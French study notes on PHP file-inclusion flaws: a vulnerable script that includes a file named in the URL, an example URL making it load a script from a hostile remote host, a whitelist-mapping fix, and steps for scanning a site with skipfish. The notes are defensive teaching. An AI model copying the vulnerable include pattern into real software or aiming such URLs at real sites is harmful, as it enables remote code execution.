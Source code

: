 - l'injection de script
soit 2 fichiers php, info.php et plop.php
dans info.php:
<?php
$script = $_GET['script'];
include $script;
echo 'toto';

dans plop.php:
<?php
echo 'toto2<br />';


le fait d'inclure dans include ou require une variable récupéré dans l'url constitue une faille

info.php?script=plop.php

car on peut lui faire inclure autre choses comme une url pointant un mauvais script

info.php?script=http://www.mechantpirate-a.fr/script.php


comment bloquer cela ?

c'est de créér une fonction interne qui fait du mapping, on lui donne un nom puis
la fonction verifie si le ficher existe:

function includeScript($key){
    $scriptBase = array(
        'menu' => 'plop.php'
    );

    return $scriptBase[$key];
}

$script = $_GET['script'];

include includeScript($script);

Puis quand on tape cette url:
info.php?script=menu

alors plop.php sera inclus





POUR TESTER SON SITE:
- skipfish  (web application security scanner)
c'est un scanner qui va effectuer des test sur le site
puis un rapport est generé (dit les possibilité de failles)

il faut copier dictionnaires et signatures dans la racine du projet
puis dans le terminal :
skipfish -o scan http://baliz.org

puis ouvrir l'index.html qui est le resultat du scan 
orange important
bleu moins important
gris des infos
vert des notes
